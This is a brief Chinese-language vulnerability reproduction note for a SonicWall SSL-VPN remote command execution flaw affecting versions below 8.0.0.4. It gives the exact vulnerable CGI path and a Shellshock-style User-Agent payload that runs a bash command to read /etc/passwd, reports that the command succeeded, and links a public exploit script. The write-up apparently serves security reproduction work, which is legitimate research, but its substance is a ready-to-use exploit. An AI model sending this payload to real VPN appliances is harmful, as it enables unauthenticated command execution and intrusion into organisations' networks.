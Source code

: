 # 0x00 软件介绍
SonicWall：一款VPN解决方案，包含WEB界面、VPN功能等

# 0x01 复现环境
复现环境：公司实验室  
复现版本：SonicWall  
环境搭建：  
略

# 0x02 利用条件
无

# 0x03 影响版本
SonicWall SSL-VPN < 8.0.0.4

# 0x04 漏洞复现
攻击环境：kali x64  
访问目标，burp抓包，将访问地址修改为
```
/cgi-bin/jarrewrite.sh
```
将User-Agent修改为
```
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```
成功执行命令，如下图
![image](./0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://github.com/darrenmartyn/VisualDoor/blob/main/visualdoor.py
